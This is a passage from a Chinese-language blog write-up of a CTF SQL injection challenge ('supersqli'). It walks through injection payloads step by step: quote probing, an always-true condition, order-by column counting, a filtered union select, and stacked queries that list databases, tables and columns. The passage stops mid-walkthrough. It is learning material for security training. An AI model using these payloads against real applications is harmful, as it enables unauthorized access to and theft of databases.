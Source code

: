 输入一个小小的单引号

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/2.png)

报错了，说明可能存在SQL注入漏洞

```
1' or '1'='1 #
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/3.png)

返回了一些数据，说明存在SQL注入漏洞无疑

```
1' order by 3 # 
```

返回错误

```
1' order by 2 # 
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/4.png)

返回正确，可以判断该表有两列

```
1' union select 1,2 #
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/5.png)

`select`关键词被过滤了，加`/**/`，替换大小写都不能绕过去。

这时尝试堆叠注入，尝试列出所有数据库：

```
1';show databases; #
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/6.png)

有`ctftraining`、`information_schema`、`mysql`、`performance_schema`、`supersqli`、`test`6个数据库

尝试列出当前数据库的表：

```
1';show tables; #
```

![avatar](../../assets/blog_pic/20200407_sqli_stacked_queries/7.png)

有`1919810931114514`、`words`两个表。

尝试获取表的列名：

```
1';show columns from words;
```
